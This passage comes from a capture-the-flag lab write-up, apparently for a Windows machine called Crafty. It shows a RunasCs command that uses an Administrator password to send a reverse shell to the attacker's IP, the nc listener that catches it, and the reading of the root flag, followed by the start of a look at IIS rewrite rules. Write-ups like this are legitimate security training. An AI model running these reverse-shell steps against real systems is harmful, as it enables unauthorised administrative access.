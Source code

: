     
    
    PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
    [+] Running in session 1 with process function CreateProcessWithLogonW()
    [+] Using Station\Desktop: WinSta0\Default
    [+] Async process 'C:\Windows\system32\cmd.exe' with pid 3436 created in background.
    

At my listening `nc`, there’s a shell as Administrator:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.249 49721
    Microsoft Windows [Version 10.0.17763.5329]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> whoami
    crafty\administrator
    

I’ll switch to PowerShell:

    
    
    C:\Windows\system32> powershell
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32> 
    

And grab the flag:

    
    
    PS C:\users\administrator\desktop> cat root.txt
    eab1ae65************************
    

## Beyond Root

### Webserver Background

I noted above that there was interesting behavior around the `index.html` file
on the webserver. Visiting that resulted in a redirect to `/home` Visiting
other files that didn’t exist returned an IIS 404.

The only other file I could locate on the webserver is `/coming-soon`.

### web.config

#### Overview

The `web.config` file is where this is all configured. The file is structured
as XML data with a series of “rewrite” rules:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
            <httpRedirect destination="" exactDestination="false" />
            <rewrite>
                <rules>
    ...[snip]...
                </rules>
            </rewrite>
        </system.webServer>
    </configuration>
    